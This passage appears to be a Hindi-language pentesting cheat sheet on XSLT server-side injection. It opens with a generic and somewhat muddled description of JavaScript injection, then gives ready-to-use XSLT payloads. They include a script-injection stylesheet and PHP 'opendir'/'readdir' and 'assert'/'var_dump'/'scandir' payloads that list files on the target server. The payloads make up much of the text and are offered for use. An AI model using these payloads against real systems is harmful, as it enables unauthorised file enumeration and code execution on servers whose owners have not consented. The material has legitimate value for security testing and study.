 Javascript इंजेक्शन एक वेब अनुप्रयोग में सुरक्षा कमजोरी हो सकती है जहां अनुप्रयोग द्वारा उपयोगकर्ता द्वारा प्रदान किए गए इनपुट को सत्यापित नहीं किया जाता है। इसका परिणामस्वरूप, हम जावास्क्रिप्ट कोड को अनुप्रयोग में संशोधित करके अनुप्रयोग के संदेशों, डेटा और विज्ञापनों को प्रभावित कर सकते हैं। इसका उपयोगकर्ता द्वारा दिए गए इनपुट को अवरोधित करने, उपयोगकर्ता के ब्राउज़र में कुछ कार्रवाई करने या उपयोगकर्ता के गोपनीय डेटा को चोरी करने के लिए उपयोग किया जा सकता है।

जावास्क्रिप्ट इंजेक्शन के लिए कुछ उपयोगी तकनीकें शामिल हैं:

- **इंजेक्शन प्वाइंट्स की खोज**: इंजेक्शन प्वाइंट्स की खोज करने के लिए अनुप्रयोग के संदेशों, फ़ॉर्मों, पैरामीटरों और कुकीज़ की जांच करें।
- **इंजेक्शन प्रकार की पहचान**: इंजेक्शन प्रकार की पहचान करने के लिए जावास्क्रिप्ट कोड के अंदर अद्यतित या अवैध इनपुट की खोज करें।
- **इंजेक्शन को उपयोग करने के लिए जावास्क्रिप्ट कोड लिखें**: इंजेक्शन को उपयोग करने के लिए जावास्क्रिप्ट कोड लिखें जो अनुप्रयोग के संदेशों, डेटा और विज्ञापनों को प्रभावित करेगा।
- **इंजेक्शन के परिणाम की जांच**: इंजेक्शन के परिणाम की जांच करने के लिए उपयोगकर्ता के ब्राउज़र में जावास्क्रिप्ट कोड का निष्पादन करें और उपयोगकर्ता के द्वारा दिए गए इनपुट के परिणाम को देखें।

जावास्क्रिप्ट इंजेक्शन एक सामान्य वेब अनुप्रयोग में पाया जा सकता है, इसलिए यह अत्यंत महत्वपूर्ण है कि वेब अनुप्रयोगों को सुरक्षित रखने के लिए उच्च सुरक्षा मानकों का पालन किया जाए।
```markup
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>
```
## डायरेक्टरी सूची (PHP)

### **Opendir + readdir**
```markup
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','/path/to/dir')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>
```
### **Assert (var\_dump + scandir + false)**

यह एक एक्सएसएलटी सर्वर साइड इंजेक्शन तकनीक है जिसमें var\_dump और scandir फंक्शन का उपयोग किया जाता है। इस तकनीक का उपयोग करके हम एक फ़ाइल सिस्टम के अंदर के फ़ाइलों और निर्देशिकाओं की सूची प्राप्त कर सकते हैं। इसके लिए हम एक एक्सएसएलटी ट्रांसफ़ॉर्मेशन फ़ाइल (XSLT) बनाते हैं जिसमें हम विशेष फ़ंक्शन को अधिकृत करते हैं। इस तकनीक का उपयोग करके हम वेब एप्लिकेशन के सर्वर साइड पर अनुमति प्राप्त कर सकते हैं और फ़ाइलों और निर्देशिकाओं की सूची को लीक कर सकते हैं।
```markup
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)))==3')" />
<br />
</body>
</html>
```
